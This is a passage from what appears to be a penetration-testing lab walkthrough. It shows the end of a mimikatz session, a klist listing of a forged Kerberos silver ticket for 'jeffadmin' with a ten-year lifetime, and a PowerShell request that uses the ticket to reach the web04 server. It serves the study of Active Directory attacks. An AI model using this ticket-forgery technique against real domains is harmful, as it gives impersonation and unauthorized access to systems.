 ```

mimikatz # exit
Bye!
```
{% endcode %}

This means we should have the ticket ready to use in memory. We can confirm this with klist.

```
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

{% code title=" Accessing the SMB share with the silver ticket" overflow="wrap" lineNumbers="true" %}
```
PS C:\Tools> iwr -UseDefaultCredentials http://web04

StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                    <head>
                    <meta http-equiv="Content-Type" cont...
RawContent        : HTTP/1.1 200 OK
                    Persistent-Auth: true
                    Accept-Ranges: bytes
                    Content-Length: 703
                    Content-Type: text/html
                    Date: Wed, 14 Sep 2022 11:37:39 GMT
                    ETag: "b752f823fc8d81:0"
                    Last-Modified: Wed, 14 Sep 20...
Forms             :
Headers           : {[Persistent-Auth, true], [Accept-Ranges, bytes], [Content-Length, 703], [Content-Type,
                    text/html]...}
Images            : {}
InputFields       : {}
Links             : {@{outerHTML=<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img
                    src="iisstart.png" alt="IIS" width="960" height="600" /></a>; tagName=A;
                    href=http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409}}
ParsedHtml        :
RawContentLength  : 703
```
{% endcode %}
